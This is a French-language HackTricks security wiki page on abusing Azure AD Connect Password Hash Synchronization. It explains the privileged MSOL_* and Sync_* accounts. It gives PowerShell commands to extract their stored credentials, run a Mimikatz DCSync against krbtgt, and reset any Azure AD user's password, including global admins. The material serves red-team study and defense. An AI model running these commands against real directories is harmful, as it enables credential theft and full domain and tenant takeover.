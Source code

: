 # Az - PHS - Synchronisation de Hash de Mot de Passe

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Informations de Base

[Dans la documentation :](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **La synchronisation de hash de mot de passe** est l'une des méthodes de connexion utilisées pour réaliser une identité hybride. **Azure AD Connect** synchronise un hash, du hash, du mot de passe d'un utilisateur depuis une instance Active Directory sur site vers une instance Azure AD basée sur le cloud.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

C'est la **méthode la plus courante** utilisée par les entreprises pour synchroniser un AD sur site avec Azure AD.

Tous les **utilisateurs** et un **hash des hashes de mot de passe** sont synchronisés de l'on-prem vers Azure AD. Cependant, les **mots de passe en clair** ou les **hashes** **originaux** ne sont pas envoyés à Azure AD.\
De plus, les groupes de sécurité **intégrés** (comme les administrateurs de domaine...) ne sont **pas synchronisés** avec Azure AD.

La **synchronisation des hashes** se produit toutes les **2 minutes**. Cependant, par défaut, l'**expiration des mots de passe** et l'**expiration des comptes** ne sont **pas synchronisées** dans Azure AD. Ainsi, un utilisateur dont le **mot de passe sur site est expiré** (non changé) peut continuer à **accéder aux ressources Azure** en utilisant l'ancien mot de passe.

Lorsqu'un utilisateur sur site souhaite accéder à une ressource Azure, l'**authentification a lieu sur Azure AD**.

**PHS** est requis pour des fonctionnalités telles que **Identity Protection** et les services de domaine AAD.

## Pivotement

Lorsque PHS est configuré, certains **comptes privilégiés** sont automatiquement **créés** :

* Le compte **`MSOL_<installationID>`** est automatiquement créé dans l'AD sur site. Ce compte se voit attribuer un rôle de **Comptes de Synchronisation de Répertoire** (voir [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ce qui signifie qu'il a des **permissions de réplication (DCSync) dans l'AD sur site**.
* Un compte **`Sync_<nom du serveur ADConnect sur site>_installationID`** est créé dans Azure AD. Ce compte peut **réinitialiser le mot de passe de TOUT utilisateur** (synchronisé ou uniquement cloud) dans Azure AD.

Les mots de passe des deux comptes privilégiés précédents sont **stockés dans un serveur SQL** sur le serveur où **Azure AD Connect est installé.** Les administrateurs peuvent extraire les mots de passe de ces utilisateurs privilégiés en clair.\
La base de données est située dans `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Il est possible d'extraire la configuration d'une des tables, étant l'une chiffrée :

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

La **configuration chiffrée** est chiffrée avec **DPAPI** et elle contient les **mots de passe de l'utilisateur `MSOL_*`** dans l'AD sur site et le mot de passe de **Sync\_\*** dans AzureAD. Par conséquent, en compromettant ceux-ci, il est possible de privesc vers l'AD et vers AzureAD.

Vous pouvez trouver un [aperçu complet de la façon dont ces identifiants sont stockés et déchiffrés dans cette présentation](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Trouver le **serveur Azure AD connect**

Si le **serveur où Azure AD connect est installé** est joint au domaine (recommandé dans la documentation), il est possible de le trouver avec :
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abusing MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Vous pouvez également utiliser [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) pour obtenir ces identifiants.
{% endhint %}

### Abus de Sync\_\*

En compromettant le **`Sync_*`** compte, il est possible de **réinitialiser le mot de passe** de n'importe quel utilisateur (y compris les Administrateurs Globaux)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Il est également possible de **modifier les mots de passe des utilisateurs uniquement cloud** (même si cela est inattendu)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Il est également possible d'extraire le mot de passe de cet utilisateur.

{% hint style="danger" %}
Une autre option serait de **attribuer des autorisations privilégiées à un principal de service**, ce que l'utilisateur **Sync** a **la permission** de faire, puis **d'accéder à ce principal de service** comme moyen de privesc.
{% endhint %}

### SSO Transparent

Il est possible d'utiliser le SSO Transparent avec PHS, qui est vulnérable à d'autres abus. Vérifiez-le dans :

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux dépôts github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
